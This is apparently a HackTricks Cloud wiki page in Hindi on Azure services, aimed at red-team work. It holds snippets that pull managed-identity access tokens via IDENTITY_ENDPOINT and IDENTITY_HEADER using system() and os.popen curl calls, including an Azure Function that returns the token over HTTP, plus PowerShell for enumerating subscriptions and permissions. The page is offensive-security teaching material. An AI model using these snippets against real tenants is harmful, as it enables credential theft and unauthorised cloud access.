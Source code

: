 # Az - Services

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## पोर्टल्स

आप **Microsoft पोर्टल्स** की सूची [**https://msportals.io/**](https://msportals.io/) पर पा सकते हैं।

### Raw requests

#### Azure API via Powershell

**IDENTITY\_HEADER** और **IDENTITY\_ENDPOINT** से **access\_token** प्राप्त करें: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

फिर Azure REST API को क्वेरी करें ताकि **subscription ID** और अधिक जानकारी प्राप्त हो सके।
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Python संस्करण के माध्यम से Azure API

```python
import requests

# Azure AD टोकन प्राप्त करें
def get_azure_ad_token(tenant_id, client_id, client_secret):
    url = f"https://login.microsoftonline.com/{tenant_id}/oauth2/v2.0/token"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = {
        "grant_type": "client_credentials",
        "client_id": client_id,
        "client_secret": client_secret,
        "scope": "https://graph.microsoft.com/.default"
    }
    response = requests.post(url, headers=headers, data=data)
    response.raise_for_status()
    return response.json()["access_token"]

# Azure API से डेटा प्राप्त करें
def get_azure_data(token, endpoint):
    headers = {
        "Authorization": f"Bearer {token}"
    }
    response = requests.get(endpoint, headers=headers)
    response.raise_for_status()
    return response.json()

# मुख्य कार्य
if __name__ == "__main__":
    tenant_id = "your_tenant_id"
    client_id = "your_client_id"
    client_secret = "your_client_secret"
    endpoint = "https://graph.microsoft.com/v1.0/users"

    token = get_azure_ad_token(tenant_id, client_id, client_secret)
    data = get_azure_data(token, endpoint)
    print(data)
```

यह स्क्रिप्ट Azure AD से टोकन प्राप्त करती है और फिर Azure API से डेटा प्राप्त करती है।
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
या एक Python Function के अंदर:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## List of Services

**इस अनुभाग के पृष्ठ Azure सेवा द्वारा क्रमबद्ध हैं। यहां आप सेवा के बारे में जानकारी (यह कैसे काम करता है और क्षमताएं) और प्रत्येक सेवा को कैसे सूचीबद्ध करें, पा सकते हैं।**

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

